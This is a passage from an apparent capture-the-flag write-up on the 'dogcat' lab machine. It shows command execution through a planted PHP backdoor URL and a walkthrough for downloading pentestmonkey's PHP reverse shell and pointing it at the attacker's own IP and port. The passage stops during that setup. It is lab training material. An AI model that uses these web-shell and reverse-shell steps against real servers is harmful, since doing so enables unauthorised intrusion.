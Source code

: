 Then, we can execute arbitrary commands on the server via our backdoor, by accessing the URL [http://dogcat.thm/backdoor.php?cmd=whoami](https://dogcat.thm/backdoor.php?cmd=whoami) <br/>

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-dogcat/2023-04-27 20_33_04-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Remote code execution via php backdoor</i></center>
<br/>

* *Nice and Clean 👌*

## **<strong><font color="Brown">Initial Access</font></strong>**
### **<strong><font color="DarkCyan">Shell as www-data |Container|</font></strong>**
#### **<strong><font color="MediumPurple">via upload of php-reverse-shell.php:</font></strong>**

After having remote code execution on the server, one way to get a shell as `www-data` is by uploading [php-reverse-shell.php](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) in the web root `/var/www/html` and then run it by accessing `http://dogcat.thm/php-reverse-shell.php`. The script will open an outbound TCP connection from the webserver to a host and port of your choice.
To do so, let's download the [PHP script](https://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz) and extract the content of the archive:
```bash
$ wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz
$ tar xvf php-reverse-shell-1.0.tar.gz
```
Now cd into `php-reverse-shell-1.0` directory and then open `php-reverse-shell.php` file in a text editor. After opening the file, you need to change the values of the `$ip` and `$port` variables. To do this, replace the default values with your `tun0` IP address and a port number of your choosing, respectively, as shown below. <br/>

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-dogcat/2023-04-28 14_30_50-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Modifying $ip and $port</i></center>
<br/>
